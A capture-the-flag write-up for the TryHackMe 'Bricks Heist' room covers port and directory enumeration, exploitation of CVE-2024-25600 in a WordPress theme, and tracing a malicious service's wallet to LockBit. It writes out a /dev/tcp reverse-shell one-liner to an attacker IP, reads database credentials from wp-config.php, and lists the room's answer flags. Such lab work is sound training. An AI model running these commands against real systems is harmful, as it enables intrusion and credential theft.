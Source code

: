 # Bricks Heist \| TryHackMe Write-up

📝 **Overview**

-   Room: Bricks Heist\
-   Difficulty: Easy\
-   Tags: Enumeration, WordPress, Exploitation, Privilege Escalation,
    OSINT

------------------------------------------------------------------------

## 🔍 Enumeration

Full port scan:

``` bash
sudo nmap -sV -sT -O -p- bricks.thm
```

Open ports:

    22/tcp   open  ssh
    80/tcp   open  http
    443/tcp  open  https
    3306/tcp open  mysql

On HTTP there was only an image.\
Let's check directories:

``` bash
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

``` bash
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

Discovered `wp-content` → WordPress site.

------------------------------------------------------------------------

## 🔎 WordPress Scan

``` bash
wpscan --url https://bricks.thm/ --disable-tls-checks
```

Found theme **bricks 1.9.5** → vulnerable.\
Exploit:
[CVE-2024-25600](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)

``` bash
pip3 install alive-progress
```

Running the exploit gives us access as user `apache`.

------------------------------------------------------------------------

## ⚡ Reverse Shell

Start listener:

``` bash
nc -lvnp 9001
```

On target:

``` bash
sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5
```

Now we have a stable shell.\
Found a hidden `.txt` file containing the first flag.

------------------------------------------------------------------------

## 🔐 wp-config.php

``` bash
cat wp-config.php
```

Found **DB credentials**.\
Log into:

    https://bricks.thm/phpmyadmin

Access granted, but not useful for the next question.

------------------------------------------------------------------------

## ⚙️ Services

Check running services:

``` bash
systemctl list-units --type=service --state=running
```

Suspicious service found:

``` bash
systemctl cat ubuntu.server
```

→ points to `/lib/NetworkManager`.

------------------------------------------------------------------------

## 🪤 Malicious Files

Inside the directory we find `inet.conf`.

``` bash
head inet.conf
```

It contains an encoded ID.\
Decode with **CyberChef** → crypto wallet address.

------------------------------------------------------------------------

## 💰 Blockchain OSINT

Check the address on [blockchair.com](https://blockchair.com/).\
Transaction history links it to the **LockBit Ransomware Group**.

------------------------------------------------------------------------

## ✅ Answers

1.  **User flag**:

        THM{fl46_650c844110baced87e1606453b93f22a}

2.  **Suspicious crypto wallet**:

        bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

3.  **Ransomware Group**:

        LockBit

------------------------------------------------------------------------

## 🏁 Conclusion

-   Enumeration → WordPress discovered.\
-   Exploited vulnerable theme → got `apache` shell.\
-   Extracted creds from `wp-config.php`.\
-   Analyzed suspicious systemd service.\
-   Extracted and decoded ID from `inet.conf`.\
-   OSINT linked the wallet to **LockBit Group**.

------------------------------------------------------------------------

✍️ In a real-world scenario, the next step would be privilege escalation
to root.
